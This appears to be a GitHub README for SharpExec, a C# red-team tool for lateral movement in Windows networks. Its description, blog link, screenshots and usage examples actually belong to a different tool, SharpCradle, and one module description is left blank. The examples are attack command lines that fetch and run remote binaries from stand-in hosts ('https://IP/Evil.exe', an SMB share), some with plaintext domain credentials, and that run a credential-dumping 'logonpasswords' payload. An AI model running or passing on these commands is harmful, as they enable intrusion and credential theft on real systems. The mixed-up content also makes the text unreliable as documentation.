 # SharpExec

Description
============

SharpExec is a tool written in C# and was designed to be another option for penetration testers or red teams to perform lateral movement within a MS Windows environment. It currently includes:

PSExec module - that allows you to execute a remote binary with arguments, for example, cmd.exe as NT Authority/System
WMI module - 

Contact at:
- Twitter: @anthemtotheego

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/SCradle.PNG?raw=true "SharpCradle")
![Alt text](/SCradle_2.PNG?raw=true "")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Web Server Download:

```SharpCradle.exe -w https://IP/Evil.exe <arguments to pass>```

```SharpCradle.exe -w https://IP/SharpSploitConsole_x64.exe logonpasswords```

File Server Download Anonymous:

```SharpCradle.exe -f \\IP\share\Evil.exe <arguments to pass>```

```SharpCradle.exe -f \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

File Server Download With Creds:

```SharpCradle.exe -f -c domain username password \\IP\share\Evil.exe <arguements to pass>```

```SharpCradle.exe -f -c domain username password \\IP\share\SharpSploitConsole_x64.exe logonpasswords```

Download .NET inline project file from web:

```SharpCradle.exe -p https://192.168.1.10/EvilProject.csproj```

